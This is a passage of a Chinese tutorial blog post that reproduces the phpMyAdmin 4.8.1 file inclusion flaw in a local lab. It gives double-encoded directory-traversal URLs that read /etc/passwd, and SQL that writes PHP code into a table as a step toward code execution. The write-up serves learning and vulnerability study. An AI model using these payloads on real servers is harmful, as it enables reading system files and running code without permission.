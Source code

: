 显示结果如下图所示：  
  
![](https://mmbiz.qpic.cn/mmbiz_png/0RFmxdZEDRNWoWUKxrkcddY3241SdjDVqM0xpzcc1TbBUL81t940Gn7MV77ApzJ9rbUEUficyXHhBA9kGKc31mA/640?wx_fmt=png&from=appmsg "")  
  
如果需要查看配置信息，这使用“phpinfo()”函数实现。  
  
![](https://mmbiz.qpic.cn/mmbiz_png/0RFmxdZEDRNWoWUKxrkcddY3241SdjDV51u7KsQEXiazp1sK0b31AXsX4ibBkCbsyAIicoEx7fOsVb5IWWlaKL1Dw/640?wx_fmt=png&from=appmsg "")  
```
<?php
  phpinfo();
?>
```  
  
显示结果如下图所示，PHP的配置信息。  
  
![](https://mmbiz.qpic.cn/mmbiz_png/0RFmxdZEDRNWoWUKxrkcddY3241SdjDVw2BTyHTLYz77P8csFPHtGBCOG7ic3PnZHkElEvw6sLRGqicZemvdJYWA/640?wx_fmt=png&from=appmsg "")  
  
写到这里，我们的环境已经搭建成功，接下来我们开始讲解phpMyAdmin漏洞吧。可能很多博友会疑惑，为什么前面花费这么多时间讲解环境搭建了，两个原因吧！一方面作者是从零开始学习，通过环境搭建来复现该漏洞；另一方面照顾初学者，希望通过通俗易懂的步骤能实现文章的实验，也希望安全圈的大牛们别笑，哈哈~都是一点一滴成长起来的。  
# 三.phpMyAdmin漏洞复现  
> 原因：phpMyadmin 4.8.1版本的index.php中存在文件包含漏洞，通过二次编码可绕过过滤。  
  
  
第一步，根据该版本CVE漏洞构造URL，在index.php后添加内容，如显示/etc/passwd详细内容。  
```
/* 方法一 */
http://localhost:8088/phpmyadmin/index.php?target=db_sql.php%253f/../../../../../../../../etc/passwd

/* 方法二 */
http://localhost:8088/phpmyadmin/index.php?target=db_datadict.php%253f/../../../../../../../../../Windows/DATE.ini
```  
  
  
第二步，通过目录穿越包含任意文件。  
  
![](https://mmbiz.qpic.cn/mmbiz_png/0RFmxdZEDRNWoWUKxrkcddY3241SdjDV9GPyCSq0ucynNxXarp5m64yfWqEaVKTtNDO4dJibWAYm3svHG0hT2WA/640?wx_fmt=png&from=appmsg "")  
  
第三步，执行SQL语句查询数据库路径。结果为：C:\xampp\mysql\data\。  
```
show global variables like "%datadir%";
```  
  
  
![](https://mmbiz.qpic.cn/mmbiz_png/0RFmxdZEDRNWoWUKxrkcddY3241SdjDVABZWwibwkjF4GW1R4ABKgg7iapBZSGggVERIvKmvkSREquLaHFntricBg/640?wx_fmt=png&from=appmsg "")  
  
第四步，向数据库写入php代码。创建数据库rce和表rce，并插入php代码。  
```
CREATE DATABASE rce;
use rce;
CREATE TABLE rce(code varchar(100));
INSERT INTO rce(code) VALUES("<?php phpinfo(); ?>");
```  
  